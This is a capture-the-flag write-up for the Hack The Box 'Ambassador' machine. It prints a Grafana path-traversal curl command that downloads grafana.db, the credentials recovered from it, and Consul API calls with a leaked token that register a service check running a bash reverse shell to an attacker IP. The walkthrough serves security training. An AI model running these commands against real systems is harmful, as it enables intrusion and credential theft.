 Hack the box Ambassador

Initial Scan

PORT 80 running a hugo site which a static site generater framework   
PORT 3000 running Grafana. A grafical monitering tool   
PORT 3306 running mysql   

unauthenticated LFI vuln in grafana version 3.2.0   
Referance [https://www.exploit-db.com/exploits/50581]( https://www.exploit-db.com/exploits/50581)   
More about LFI [https://j0vsec.com/post/cve-2021-43798/](https://j0vsec.com/post/cve-2021-43798/)   

Exploit LFI using a python script 
Default config of grafana is using sqlite3 and store the file on /var/lib/grafana/grafana.db

Downloading Grafana.db

```bash
curl --path-as-is "http://10.129.208.1:3000/public/plugins/state-timeline/../../../../../../../../../../../../../var/lib/grafana/grafana.db" -O grafana.db
```

Found some creds
```bash
Username:grafana
password:dontStandSoCloseToMe63221!
Database:grafana
```
Grafana login cred
```bash
username:admin
password:dad0e56900c3be93ce114804726f78c91e82a0f0f0f6b248da419a0cac6157e02806498f1f784146715caee5bad1506ab069
salt:0X27trve2u
````
User creds
```bash
developer:YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==:anEnglishManInNewYork027468
```
Privilege escalation

Found token from local git commit of my-app in opt dir
```bash
ACL token:bb03b43b-1d81-d62b-24b5-39540ee469b5
```
Making exploit

Referance API doc
[https://www.consul.io/api-docs/agent/service](https://www.consul.io/api-docs/agent/service)   
Referance about default port [https://stackoverflow.com/questions/30684262/different-ports-used-by-consul](https://stackoverflow.com/questions/30684262/different-ports-used-by-consul)   
```bash
curl http://127.0.0.1:8500/v1/agent/services -H "X-Consul-Token: bb03b43b-1d81-d62b-24b5-39540ee469b5"
curl -X PUT http://127.0.0.1:8500/v1/agent/services/register -H "X-Consul-Token: bb03b43b-1d81-d62b-24b5-39540ee469b5" --data @rce.json
```
rce.json
```json
{
  "ID": "rce3",
  "Name": "rce3",
  "Tags": ["primary", "v1"],
  "Address": "127.0.0.1",
  "Port": 80,
  "Check": {
    "Args": ["bash", "-c", "bash -i >& /dev/tcp/10.10.16.6/9001 0>&1"],
    "Interval": "10s",
    "Timeout": "86400s"
  }
}
```